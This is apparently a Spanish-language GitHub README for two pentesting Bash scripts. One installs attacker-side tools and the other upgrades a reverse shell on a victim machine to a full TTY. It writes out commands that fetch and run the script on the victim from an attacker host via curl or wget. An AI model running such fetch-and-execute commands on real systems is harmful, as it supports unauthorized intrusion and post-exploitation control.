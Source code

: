 # 🧪 AutoTTY + Install Script

Este repositorio contiene dos scripts Bash diseñados para mejorar tu experiencia al obtener reverse shells en máquinas objetivo. El objetivo es facilitar el tratamiento de TTY automáticamente y asegurar que todas las herramientas necesarias estén instaladas en tu sistema atacante.

---

## 📁 Archivos

| Archivo        | Descripción                                                                 |
|----------------|-----------------------------------------------------------------------------|
| `autotty.sh`   | Aplica automáticamente tratamiento TTY. Si ya se aplicó uno, lo reinicia.  |
| `install.sh`   | Instala dependencias necesarias como `rlwrap`, `xterm`, `tmux`, entre otras.|

---

## ⚙️ Instalación de dependencias

Ejecuta este script en tu máquina atacante antes de iniciar una sesión:

```bash
chmod +x install.sh
./install.sh```

🔁 Uso del tratamiento TTY
Una vez que tengas acceso a una reverse shell en la máquina víctima, ejecuta:

bash
Copy code
bash <(curl -s http://TU-IP:PUERTO/autotty.sh)
O si usas wget:

bash
Copy code
wget http://TU-IP/autotty.sh && bash autotty.sh
El script detecta si ya existe un tratamiento TTY activo (usando un marcador en /tmp/tty_active). Si lo hay, lo borra y lo reinicia.

✅ Requisitos
Acceso a una reverse shell (por ejemplo, vía pwnear, nc, etc.)

Acceso a bash y al comando script en la máquina víctima

Conexión a internet (para descargar el script remotamente)

💡 Tip
Puedes alojar estos scripts en un servidor web simple para descargarlos desde una shell víctima. Ejemplo:

bash
Copy code
# En tu máquina atacante
python3 -m http.server 80
👤 Autor
Russell 09

Herramientas creadas para flujos de pentesting prácticos y eficientes.
